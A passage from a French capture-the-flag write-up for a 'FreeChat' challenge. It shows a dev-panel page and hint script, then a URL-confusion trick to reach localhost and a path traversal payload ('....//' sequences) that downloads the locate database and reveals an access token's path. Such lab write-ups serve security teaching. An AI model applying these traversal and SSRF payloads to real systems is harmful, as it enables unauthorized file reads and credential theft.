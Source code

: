```html
<!DOCTYPE html>
<html>
<head>
    <title>FreeChat - Dev Panel</title>
    <script src="/static/js/hint.js"></script>
</head>
<body>
    <div style="text-align: center;">
        <h1>FreeChat - Dev Panel</h1>
        <h3>Welcome dev, to access the panel, please enter your access token</h3>
        <form action="http://devpanel:8000/" action="GET">
            <input type="text" name="token" placeholder="Access Token">
            <input type="submit" value="Submit">
        </form>
        <div>
            <h5 style="display: inline-block;">Forgot your token ? </h5>
            <button onclick="hint()" style="display: inline-block;">Hint</button>
        </div>
        <div id="hint"></div>
    </div>

</body>
</html>
```

En regardant le `hint` avec `http://pbs.twimg.com@localhost:1337/static/js/hint.js`, on confirme qu'il faut là aussi un token:

```js
function hint(){
    document.getElementById("hint").innerHTML = "<h5>Hint: Don't be stupid admin, if you've lost the <b>token</b> you can still <b>locate</b> it. Just think!</h5>"
}
```

#### Locate: /var/cache/locate/locatedb

Ici vient une partie plus vicieuse, ne pouvant pas énumérer les dossiers, on doit utiliser en supposant qu'elle existe `locatedb`, stockant le PATH de l'application.

On se rend donc ici `http://worker02.gcc-ctf.com:12033/pfp?name=....//....//....//....//....//....//var/cache/locate/locatedb`, ce qui télécharge le fichier puis on recherche:

```bash
locate -d ./locatedb 'freechat'
/freechat
/freechat/app.py
...
/home/freechat
/home/freechat/.bash_logout
/home/freechat/.bashrc
/home/freechat/.for_d3vs_0nly
/home/freechat/.for_d3vs_0nly/access_token.txt
/home/freechat/.profile
```
